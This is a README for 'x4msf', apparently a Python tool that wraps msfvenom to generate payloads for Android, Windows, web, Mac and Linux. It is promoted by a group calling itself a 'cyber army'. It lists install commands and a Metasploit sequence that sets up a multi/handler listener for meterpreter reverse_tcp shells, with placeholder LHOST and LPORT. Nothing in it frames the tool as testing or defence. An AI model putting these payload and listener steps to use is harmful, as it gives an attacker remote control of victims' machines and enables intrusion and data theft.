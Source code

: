 # x4msf
A MSFvenom Payload creator tools.
# Features :
* Android payload
* Windows Payload
* Web Payload
* Mac Payload
* Linux Payload Generate
# language :
* python 3.8.3

# Installation :
```bash
apt update

apt upgrade

apt install git

apt install python

git clone https://www.github.com/teamx4ck/x4msf
```
# Run :
```bash
$ python x4msf.py
```

# Exploit
	```bash
	>> msfconsole
	msf> use exploit/multi/handler
	msf> (os)/meterpreter/reverse_tcp
	msf> set LHOST > Your LHOST
	msf> set LPORT > Your LPORT
	msf> run
# author :
* 1. Rakib Hossain

# FB Group
* Name : x4ck cyber army
* Link : https://m.facebook.com/groups/x4ckcyberarmy/

# Stay With Team X4CK
